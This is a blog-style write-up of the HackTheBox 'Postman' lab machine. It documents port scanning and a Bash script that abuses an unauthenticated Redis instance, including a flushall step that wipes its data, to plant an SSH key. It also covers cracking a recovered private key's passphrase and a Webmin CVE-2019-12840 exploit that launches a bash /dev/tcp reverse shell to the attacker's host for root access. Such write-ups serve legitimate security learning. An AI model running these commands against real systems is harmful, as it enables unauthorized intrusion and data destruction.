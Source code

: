 ```yaml
---
title: "HackTheBox: Postman Writeup"
date: 2020-03-13 17:06:00
tags: ["HackTheBox", "CTF", "Writeup", "Redis", "Pentesting", "Linux", "CVE", "Webmin"]
description: "Writeup for the Postman machine at HackTheBox."
images: []
---
```


[Postman](https://www.hackthebox.eu/home/machines/profile/215) is a vulnerable Linux machine hosted over at [HackTheBox](https://www.hackthebox.eu/) with a difficulty rating of 4.4 out of 10. It runs a Redis instance with lack of authentication which can be used to chuck SSH keys onto the machine. Another private SSH key hides in the guts of the file system. Its passphrase can then be used to obtain user privileges and, through a CVE, privilege escalation to root.

<!--more-->

### Enumeration

The initial portscan reveals two webservers, one running on port 80 and one on port 10000. There is also a Redis instance running on port 6379.

```text
kali@kali:~$ sudo masscan -p1-65535,u:1-65535 10.10.10.160 --rate=1000 -e tun0

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-03-13 15:33:46 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
kali@kali:~$ sudo nmap -sV -p80,6379,10000 postman.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-13 11:37 EDT
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.066s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
6379/tcp  open  redis   Redis key-value store 4.0.9 
10000/tcp open  http    MiniServ 1.910 (Webmin httpd) 

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 37.61 seconds
```

I added an entry to my hosts file before checking out both webservers. Port 80 shows a normal portfolio. A dirbust doesn't reveal much other than directories for serving static content for the website. The webserver on port 10000 is not accessible without explicitly switching the transport protocol to HTTPS. So after browsing `https://postman.htb:10000` instead, I find the login mask of [Webmin](http://www.webmin.com/) &mdash; a remote configuration interface for Unix systems.

{{< figure src="/images/htb/postman/webmin.png" alt="Screenshot of Webmin login panel" caption="Webmin login panel" >}}

There are two useful CVEs filed for Webmin. [CVE-2019-12840](https://www.exploit-db.com/exploits/46984) allows authenticated remote code execution so this might be useful at a later time. [CVE-2019-15107](https://www.exploit-db.com/exploits/47230) allows unauthenticated remote code execution, but this particular Webmin instance turned out to not be vulnerable to that exploit.

Lastly, I checked out the Redis instance. As it turns out, it is completely unprotected.

```text
kali@kali:~$ redis-cli -h postman.htb                                 
postman.htb:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:9435c3c2879311f3
redis_mode:standalone
os:Linux 4.15.0-58-generic x86_64
```

### Dumping SSH keys with Redis

A [blog article](http://antirez.com/news/96) by the author of Redis themselves on the security of Redis describes a method of putting SSH keys onto a remote server using Redis. Here's a quick rundown of the attack.

1. Create a new SSH keypair on local machine.
2. Connect to Redis instance and configure to save the Redis dataset to the `authorized_keys` file in the SSH directory of the Redis user.
3. Set value of an arbitrary database key to the content of the newly created public key file.
4. Run `SAVE` command on Redis instance to dump the dataset to the previously configured file.

```text
kali@kali:~/HTB/machines/postman$ ssh-keygen -t rsa -C "redis@postman.htb"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./id_rsa
Your public key has been saved in ./id_rsa.pub
The key fingerprint is:
SHA256:UiOInDEEpdfzJfzVH8zgttqUeGwZt29uz8qQqmsMSwQ redis@postman.htb
The key's randomart image is:
+---[RSA 3072]----+
|.+=         .    |
| o *Eo     o +   |
|. = +.+ + . = =  |
| .   o.* o + B o |
|     .o S . O o  |
|      o.   * . . |
|     . +  . +   o|
|      . o  . o +.|
|       .oo.   oo=|
+----[SHA256]-----+
```

Then it is as trivial as connecting to the machine via SSH with the generated private key. Since multiple users tried to dump their SSH keys in the same way, I wrote a short Bash script to pull off the steps on the Redis instance in quick succession.


```bash
#!/usr/bin/bash

host=$1
file=$2

redis-cli -h $host slaveof no one
redis-cli -h $host flushall
redis-cli -h $host config set dir /var/lib/redis/.ssh
redis-cli -h $host config set dbfilename authorized_keys
redis-cli -h $host set rbk "$(cat $file)"
redis-cli -h $host save
```

The script is executed with two command line parameters. The first parameter is used to specify the address of the unprotected Redis instance. The second parameter specifies the path to the public key file. All commands follow the attack described above with one exception: `SLAVEOF NO ONE`. There exists [another common vulnerability](https://www.exploit-db.com/exploits/47195) allowing unauthenticated code execution by using Redis's built in master-slave replication feature. However, the premade exploits that can be found would change the Redis instance into a read-only slave without leveraging the vulnerability. Using `SLAVEOF NO ONE` would change the read-only slave back into a read-write master.

So much for this intermission. I ran the script in one tab and waited for it to complete so I could SSH into the machine in another tab.

```text
kali@kali:~/HTB/machines/postman$ ssh -i id_rsa redis@postman.htb
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)
...
Last login: Fri Mar 13 15:58:42 2020 from 10.10.15.150
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
redis@Postman:~$ pwd
/var/lib/redis
```

The result is a low-privilege shell which allowed me to dig deeper into the machine. During enumeration, I found a user account called `Matt` and a rogue SSH key in the `/opt` directory.

```text
redis@Postman:~$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghf...
-----END RSA PRIVATE KEY-----
```

John found the corresponding passphrase `computer2008` for the SSH key within a couple of seconds. 

```text
kali@kali:~/HTB/machines/postman$ /usr/share/john/ssh2john.py matt_id > matt_id.hash
kali@kali:~/HTB/machines/postman$ john --format=ssh matt_id.hash --wordlist=~/rockyou.txt --rules
```

Using the private key to SSH into the machine wouldn't work though. The SSH server is configured to not allow any login attempts from `Matt`, so I checked for other places that would allow me to use the same combination of username and password. All it took was a simple `su`.

```text
redis@Postman:~$ su Matt
Password: (computer2008)
Matt@Postman:/var/lib/redis$ cd /home/Matt
Matt@Postman:~$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
Matt@Postman:~$ cat user.txt
517ad###########################
```

### Authenticated remote code execution

Now that I had a username and a corresponding password, I could come back to the Webmin interface and attempt to exploit the CVE I found earlier. I could use the same credentials to log in which meant that, in theory, the exploit should work.

The exploit for the relevant CVE is written as a Metasploit module. Not being the biggest Metasploit fan myself, I rewrote it in Python. You can look at it in my [CTF snippet repository](https://github.com/JoogsWasTaken/ctf-snippets/tree/master/HTB/Postman) although the code itself is unremarkable. It's just a port of the already existing port to another programming language.

To verify that the exploit works, I ran a ping back to my local machine.

```text
kali@kali:~/HTB/machines/postman$ python3 cve-2019-12840.py https://10.10.10.160:10000 Matt computer2008 "ping -c 4 10.10.##.##"
```
The script takes four arguments: the address of the vulnerable Webmin instance, the username and password, and finally the command to be executed. I captured the pings back to my machine, so my next step was to obtain a reverse shell. Getting a particular reverse shell to work was more or less trial and error. Bash turned out to be perfectly capable of doing just that.

```text
kali@kali:~/HTB/machines/postman/writeup$ python cve-2019-12840.py https://10.10.10.160:10000 Matt computer2008 "bash -i >& /dev/tcp/10.10.##.##/4242 0>&1"
```

```text
kali@kali:~$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.##.##] from (UNKNOWN) [10.10.10.160] 46086
bash: cannot set terminal process group (680): Inappropriate ioctl for device
bash: no job control in this shell
root@Postman:/usr/share/webmin/package-updates/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Postman:/usr/share/webmin/package-updates/# cd       
cd
root@Postman:~# cat root.txt
cat root.txt
a2577###########################
```

And just like that, I've become root.

### Conclusion

In hindsight, this box definitely deserves its easy rating despite its calculated difficulty of 4.4. There were no great hindrances except the ones caused by many people trying to solve this box at the same time. Funnily enough, I ended up getting the root flag before I got the user flag because I didn't think of `su` before attempting to use the credentials I found in conjunction with the CVE. I also had trouble finding the Redis instance until I adopted `masscan` into my pentesting workflow, and it turned out to be a massive timesaver. Thanks to [TheCyberGeek](https://www.hackthebox.eu/home/users/profile/114053) for this box and thanks to anyone else who kept nudging me until I finally found the Redis instance. From there on out, it was very straightforward.